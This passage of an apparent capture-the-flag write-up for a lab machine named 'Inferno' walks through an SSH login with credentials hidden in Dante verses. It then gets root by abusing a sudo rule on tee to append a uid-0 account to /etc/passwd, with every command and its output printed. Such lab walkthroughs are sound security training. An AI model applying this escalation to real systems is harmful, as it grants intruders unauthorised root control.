

```bash
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:V1rg1l10h3lpm3
```

We find credentials! Maybe it can be used for `ssh` login.
```bash
dante:V1rg1l10h3lpm3
```



Now, we can read `local.txt`.
```bash
dante@ip-10-10-217-92:~$ cat local.txt 
77f6f3c544ec0811e2d1243e2e0d1835
```

### Get root shell using sudo on /usr/bin/tee and adding user to /etc/passwd

When checking our privileges using `sudo -l`, we find we can execute `/usr/bin/tee`:
```bash
$ sudo -l
Matching Defaults entries for dante on ip-10-10-217-92:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on ip-10-10-217-92:
    (root) NOPASSWD: /usr/bin/tee
```

I searched way to exploit, and find this [https://gtfobins.github.io/gtfobins/tee/](https://gtfobins.github.io/gtfobins/tee/)

> If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

    LFILE=file_to_write
    echo DATA | sudo tee -a "$LFILE"

Okay, we will add new row for `/etc/passwd`, like shown here [https://seckiocyber.medium.com/linux-privilege-escalation-weak-file-permission-etc-passwd-writable-dc1e0727f7f7](https://seckiocyber.medium.com/linux-privilege-escalation-weak-file-permission-etc-passwd-writable-dc1e0727f7f7) 

First, we want to generate our password hash:
```bash
┌──(agonen㉿kali)-[~/thm/Inferno]
└─$ openssl passwd elicopter
$1$K0rF/n9S$YxJobFYS2.9ALcEsYrN.N.
```


Now, the idea is to take the line of `root`:
```bash
$ cat /etc/passwd                                                                                                                                                                            
root:x:0:0:root:/root:/bin/bash        
```

and create similar line, just with our username, in this case `elicopter`, and the hash we generated, in this case `$1$K0rF/n9S$YxJobFYS2.9ALcEsYrN.N.`.
```bash
elicopter:$1$K0rF/n9S$YxJobFYS2.9ALcEsYrN.N.:0:0:root:/root:/bin/bash
```

Now, we can exploit `tee` to add this line into our `/etc/passwd`:

```bash
echo 'elicopter:$1$K0rF/n9S$YxJobFYS2.9ALcEsYrN.N.:0:0:root:/root:/bin/bash' | sudo tee -a "/etc/passwd"
```

As we can see, the user has been added.



Now, we only need to change to this user, using `su` and the password we now, in this case `elicopter`:
```bash
$ su elicopter
Password: 
root@ip-10-10-217-92:/home/dante# id
uid=0(root) gid=0(root) groups=0(root)
```

And we got root shell! Let's grab the `proof.txt`, from `/root` folder.

```bash
root@ip-10-10-217-92:~# cat proof.txt 
Congrats!

You've rooted Inferno!

f332678ed0d0767d7434b8516a7c6144

mindsflee
```




